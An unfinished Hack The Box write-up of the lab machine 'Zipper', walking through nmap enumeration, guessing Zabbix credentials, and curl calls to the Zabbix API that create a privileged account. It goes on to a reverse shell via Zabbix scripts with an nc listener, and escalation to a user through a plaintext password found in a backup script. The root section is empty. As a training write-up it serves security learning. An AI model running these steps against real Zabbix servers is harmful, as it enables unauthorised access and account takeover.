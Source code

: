 # Zipper (Writeup not finished)

This is a write up on the HTB machine, Zipper. I have seen a few methods people used to obtain the initial user but this is the method I used.


## Enumeration
The IP given is `10.10.10.108`

We start by doing a nmap scan on the IP address:
 ```
[root:~]# nmap -sV -p- -v 10.10.10.108     
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
10050/tcp open  tcpwrapped syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 
 From here, the two major ports to enumerate is `10050` and `80`. Starting at `10050`, it seems that nmap's service enumeration did not find much information on the port.
 By doing a quick Google search, we are able to get a general idea of what the port is used for which is `Zabbix-Agent`:
 https://www.speedguide.net/port.php?port=10050
 
 Next, we look at the HTTP service. On the default page of the web server, it is a default Apache2 Ubuntu page.
 Trying to brute force the directory using default Dirb wordlist and seclist's `big.txt` resulted in nothing significant. By using     the information we have gotten on `10050`, the directory `zabbix` was attempted and found a login page: 
 
 ![Image](https://i.imgur.com/G7IOBIR.png)

 Default credentials were attempted on the login pannel, however, none of them were valid. 
 We are able to login as a "guest" user. Using CewL, a wordlist was created.
 ```
 [root:~]# cewl http://10.10.10.108/zabbix/zabbix.php\?action\=dashboard.view -H cookie:PHPSESSID=8b2a9bpfd5bvf5jk9s8lqfq9rl -m 5 -d 4 > zabbixwordlist.txt
```
To explain this syntax, we are able to pass a cookie in the header field so CewL scrapes words as the user "guest". The cookie was found by intercepting using Burp when logging in via "guest":
![Image](https://i.gyazo.com/0fcc5ac903ffefe902e1a88f45926c1b.png)

In a more effiecnt approach, we are able to make a wordlist ourselves:
```
zipper
Zipper
admin
Admin
Zabbix
zabbix
Zapper
zapper
password
Password
Administrator
administrator
root
Root
toor
Toor
```

 ## Exploitation
Using a brute forcing application, we find that the username and password credentials are `zapper:zapper` or `Zapper:Zapper`.
We try to login to the GUI pannel, however, we get a `GUI access disabled`.

From here, we do some research on Zabbix application itself. We see that in the documentation, Zabbix uses an API.
Zabbix API documentation: https://www.zabbix.com/documentation/3.0/manual/api

We can try authenticating and accessing the application using the account using the API.
Start by getting the authentication token:
```
curl -d '{
    "jsonrpc": "2.0",
    "method": "user.login",
    "params": {
        "user": "zapper",
        "password": "zapper"
    },
    "id": 1,
    "auth": null
}' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 

Result: {"jsonrpc":"2.0","result":"36a3bf6f1edbd8275e3b5667b64fb128","id":1}
```

From here we would want to try to make a higher privledge account, but first we need to enumerate the user groups:
```
[root:~]# curl -d '{
    "jsonrpc": "2.0",
    "method": "usergroup.get",
    "params": {
        "output": "extend",
        "status": 0
    },
    "auth": "36a3bf6f1edbd8275e3b5667b64fb128",
    "id": 1
 }' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 

Result: {"jsonrpc":"2.0","result":[{"usrgrpid":"7","name":"Zabbix administrators","gui_access":"0","users_status":"0","debug_mode":"0"},{"usrgrpid":"8","name":"Guests","gui_access":"0","users_status":"0","debug_mode":"0"},{"usrgrpid":"11","name":"Enabled debug mode","gui_access":"0","users_status":"0","debug_mode":"1"},{"usrgrpid":"12","name":"No access to the frontend","gui_access":"2","users_status":"0","debug_mode":"0"}],"id":1}
```

Lets create a debugging mode account:
```
curl -d '{
    "jsonrpc": "2.0",
    "method": "user.create",
    "params": {
        "alias": "John2",
        "passwd": "Doe123",
	"type": "3",
        "usrgrps": [
            {
                "usrgrpid": "11"
            }
        ],
        "user_medias": [
            {
                "mediatypeid": "1",
                "sendto": "support@company.com",
                "active": 0,
                "severity": 63,
                "period": "1-7,00:00-24:00"
            }
        ]
    },
    "auth": "36a3bf6f1edbd8275e3b5667b64fb128",
    "id": 1
}' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 
```
After the user is created, we are able to login via GUI. We now have access to the "Administration" tab. We are able to create scripts `Administration -> Scripts` and execute them in the Zabbix agent. The Zabbix server is the container.
By doing some enumeration on the machine using the script function, we find that the machine has Perl installed. Using Perl, we can create a reverse shell:

![Image](https://i.gyazo.com/d372e0fb1099b2875399b6ae1e6ac527.png)

We set up a listener on our attacking machine:
`[root:~]# nc -nvlp 1234`

Then we login as a "guest" and execute the script:
![Image](https://i.gyazo.com/fb40cffa499fb2a4adc1d6927d0a0f88.png)

#Privledge Escalation (User)
We are a very low privledged user, authenticated as the Zabbix service:
```
$ whoami
zabbix
```

Searching around the machine, we find a backup script:
```
$ cd /home/zapper/utils
$ ls
backup.sh
zabbix-service
$ cat backup.sh 
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

The zip file is using a password `ZippityDoDah`.
We can try to authenticate to a user using the password we have found, but first we need to spawn a tty shell as we are getting `su: must be run from a terminal` by using the command `su`. By enumerating the machine more, we see that python3 is available:
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

Viewing the `/etc/passwd` shows a user `zapper` and we are able to authenticate to the user by using the password we have found `ZippityDoDah`:
![Image](https://i.gyazo.com/aed65e3fb0ecaa12d31394138356afbe.png)

#Privledge Escalation (Root)
Now we have user, it is time to move on to Root. 


